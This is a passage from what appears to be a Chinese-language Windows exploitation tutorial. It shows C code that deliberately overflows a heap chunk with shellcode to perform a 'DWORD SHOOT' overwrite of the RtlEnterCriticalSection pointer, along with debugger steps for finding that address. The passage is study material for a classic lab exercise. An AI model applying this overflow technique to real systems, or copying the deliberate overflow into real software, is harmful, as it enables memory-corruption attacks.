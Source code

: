 ```

int main()
{
	HLOCAL h1=0,h2=0;
	HANDLE hp;
	hp=HeapCreate(0,0x1000,0x10000);
	//__asm int 3;
	//EnterCriticalSection(0);
	h1=HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	
	memcpy(h1,shellcode,0x200);
	h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);

	return 0;
}
```

取消main的两处注释, 通过调试得到RtlEnterCriticalSection的地址
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-010.png)

成功断下, 跟进RtlEnterCriticalSection, 得到地址0x77f89103
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-011.png)

给EnterCriticalSection(0)处加上注释, 再调试一遍看DWORD SHOOT是否成功
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-012.png)
